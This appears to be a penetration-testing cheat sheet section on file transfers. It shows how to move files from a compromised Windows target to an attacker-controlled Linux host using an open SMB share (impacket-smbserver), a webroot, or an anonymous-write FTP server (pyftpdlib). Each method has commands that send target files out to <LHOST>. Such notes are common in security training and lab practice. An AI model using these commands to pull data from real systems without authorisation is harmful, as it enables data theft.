 ## File Transfers

### Method 1 (SMB Server) | Windows -> Linux

On **LOCAL**, first set up the ``/etc/samba/smb.conf`` file as follows (add on bottom of the page):

```
[SHARE_NAME]
   comment = File Drop
   path = <PATH_TO_SOURCE_DIR>
   browseable = yes
   read only = no
   guest ok = yes
```

Second, again on **LOCAL**, set up the server:

```
# smbserver.py <SHARE_NAME> $(pwd) -port <LPORT>          <- Port is optional

or

# impacket-smbserver <SHARE_NAME> $(pwd) -port <LPORT>    <- Port is optional
```

On **TARGET**:

```
PS C:\> copy <FILE_NAME> \\<LHOST>\<SHARE_NAME>\<OUTPUT_FILE_NAME>
```

## 

### Method 2 (Web ROOT) | Windows -> Linux

If you have the permission for copying the file to the webroot, copy the file to the server & download the file on **LOCAL**.

##

### Method 3 (FTP, works almost EVERYTIME) | Windows -> Linux

On **LOCAL**:

```
# pip install pyftpdlib

# python -m pyftpdlib -p 21 -w         <- "-w" flag enables anonymous write permission
```

On **TARGET**:

```
PS C:\> C:\Windows\System32\ftp.exe
ftp> open <LHOST>
ftp> user anonymous
ftp> password <BLANK>
ftp> put <FILE_NAME>
```
